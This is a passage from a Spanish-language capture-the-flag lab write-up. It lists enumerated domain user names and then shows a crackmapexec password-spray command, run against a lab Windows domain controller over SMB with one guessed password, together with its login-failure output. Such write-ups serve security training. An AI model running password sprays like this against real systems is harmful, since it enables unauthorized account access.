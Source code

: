 ```bash
	User Name   :	felicia
	Description :	
	User Name   :	gustavo
	Description :	
	User Name   :	ulf
	Description :	
	User Name   :	stevie
	Description :	
	User Name   :	claire
	Description :	
	User Name   :	paulo
	Description :	
	User Name   :	steve
	Description :	
	User Name   :	annette
	Description :	
	User Name   :	annika
	Description :	
	User Name   :	per
	Description :	
	User Name   :	claude
	Description :	
	User Name   :	melanie
	Description :	
	User Name   :	zach
	Description :	
	User Name   :	simon
	Description :	
	User Name   :	naoki
	Description :	
```

# PasswordSpray

- Ahora podemos usar **crackmapexec** para ver si algún usuario usa la contraseña mediante un **passwordspray**.

```bash
➜  content crackmapexec smb 10.129.96.155 -u users.txt -p Welcome123! --continue-on-success
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\Administrator:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\krbtgt:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE
```